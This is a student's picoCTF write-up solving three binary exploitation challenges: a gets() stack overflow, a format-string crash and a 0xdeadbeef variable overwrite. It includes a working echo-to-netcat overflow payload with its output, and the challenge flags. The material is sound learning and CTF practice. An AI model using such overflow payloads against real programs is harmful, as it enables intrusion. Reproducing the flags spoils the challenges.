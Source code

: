 # Binary Exploitation

# 1. Buffer Overflow 0
Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:
nc saturn.picoctf.net 50903

## Solution:
this one was quite easy, as uni is already teaching us c. reading the source code file, i could figure out the code used gets, which meant i had to perform a stack overflow. i also noticed the code was programmed to write the flag to a txt if this happened. i therefore typed AAAAAAAAAAAAAAAAAAAAAAAAAAAA in the netcat instance, giving me the flag

## Flag: 
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}

## Concepts Learnt: 
basics of stack overflow

## Notes:

## Resources: 

# Format String 0
Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 59733

## Solution:
looking at the hint, i saw it was based on format string vunerability. i could make some sense of this being taught format specifiers in c. looking at the source code, the program had 2 stages, both of which needed format specifiers as errors to move to the next stage. the condition for the first one was for the characters to be greater than 64. this was possible with the grilled cheese as it contained %114d, satisfying the first condtition. the second one, reading the options was classic cheesecake, as it contained a %s. running this caused a segmentation fault, which was needed to print out the flag

## Flag: 
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}

## Concepts Learnt: 
Format String Vulnerability
## Notes:

## Resources:

# 3. Clutter Overflow
Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

## Solution:
looking at the source code, i figured we needed to exceed the 256 limit of the array and trigger the 0xdeadbeef which would be stored next to it using overflow. typing the following generated the flag.

```
 echo -e 'iemnkxnywdihekumxydqybhjinjpeqguqznpbjvtptayymccxktfbgmywxbpmdknpxycrwhbpxmihxcumzhjavixcpbvjyyadhxxbrkjznibcdfmwuvwutwemytnriqmthnxawfnfxipbewdhchawtwrdwapytkfurzjzrzuuqeznmyjvdcftchregydckhqzknxbxacnpdxwvpuinfakzrkynbytkahffrhgfjzxychzrimqiwuejepexzzemtfkbgmaaaa\xef\xbe\xad\xde' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag: 
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
## Concepts Learnt: 
0xdeadbeef is a common key for debugging 

``` setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL); 
  ``` 
This code disables buffering for the three standard I/O streams: standard input (stdin), standard output (stdout), and standard error (stderr).

## Notes:

## Resources: 